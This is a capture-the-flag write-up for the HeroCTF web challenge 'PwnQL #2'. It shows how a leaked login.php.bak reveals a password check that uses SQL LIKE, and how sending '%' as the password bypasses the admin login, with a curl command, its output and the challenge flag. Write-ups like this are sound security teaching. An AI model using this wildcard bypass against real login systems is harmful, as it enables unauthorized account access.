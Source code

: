 # PwnQL #2

### Category

Web

### Description

Login as *admin* to get the flag.

URL : http://challs.heroctf.fr:XXXX

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Write up

After looking at the source code of the page, we can find a hint about a file named **login.php.bak**.
We can download this file ! Let's look at this content.

```php
$sql = "SELECT * FROM users WHERE username = :username AND password LIKE :password;";
$sth = $db->prepare($sql, array(PDO::ATTR_CURSOR => PDO::CURSOR_FWDONLY));
$sth->execute(array(':username' => $username, ':password' => $password));
$users = $sth->fetchAll();
```

The query is prepared, so we cannot do a SQL injection but the query itself is vulnerable. The *LIKE* function is used !
The percentage (%) matches any string of zero or more characters in the *LIKE* function.

```
username : admin
password : %

$ curl -s -X POST "http://localhost:8080/" -d "username=admin&password=%" | grep "Hero{"
    <label style='color: white;'>Welcome back admin ! Here is your flag : Hero{pwnQL_b4sic_0ne_129835}</label><br> 
```

### Flag

Hero{pwnQL_b4sic_0ne_129835}